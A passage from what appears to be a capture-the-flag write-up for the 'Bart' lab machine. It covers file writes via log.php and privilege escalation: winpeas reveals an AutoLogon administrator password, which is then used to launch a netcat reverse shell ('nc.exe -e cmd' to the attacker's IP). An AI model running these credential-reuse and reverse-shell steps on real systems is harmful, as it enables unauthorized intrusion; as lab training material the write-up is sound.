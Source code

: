 Since, log.php contains file `file_put_contents()` here I could've wrote on any file. If I still wouldn't have write access to directory, I would've tried writing in log.php. 
Even if log.php wasn't writing in any file and it was a usual log file. The above idea would've worked.

# Privesc
Running winpeas shows:
```bash
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  DESKTOP-7I3S68E
    DefaultUserName               :  Administrator
    DefaultPassword               :  3130438f31186fbaf962f407711faddb

  [+] UAC Status
   [?] If you are in the Administrators group check how to bypass the UAC https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access
    ConsentPromptBehaviorAdmin: 5 - PromptForNonWindowsBinaries
    EnableLUA: 1
    LocalAccountTokenFilterPolicy: 1
    FilterAdministratorToken:ccountTokenFilterPolicy set to 1.
      [+] Any local account can be used for lateral movement.
```

I can see there are autologon credentials stored and there's no UAC.
First I need to change my shell (If I've spawned with Invoke-powershellTcp) as even if I setup my credentials correctly, I wouldn't be able to call functions like `Start-Process` or  `Invoke-Command` as they wouldn't be defined.

I got a new shell with netcat64 binary.
Then I can make PSCredential object:
```powershell
PS C:\> $SecPass = ConvertTo-SecureString '3130438f31186fbaf962f407711faddb' -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass);
PS C:\> Start-Process -FilePath "powershell" -argumentlist "C:\temp\nc.exe -e cmd 10.10.14.2 6666" -Credential $cred
```
And I got a shell as administrator.

```bash
$ nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.10.10.81 55838
Microsoft Windows [Version 10.0.15063]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\internal-01\log>whoami
bart\administrator
```
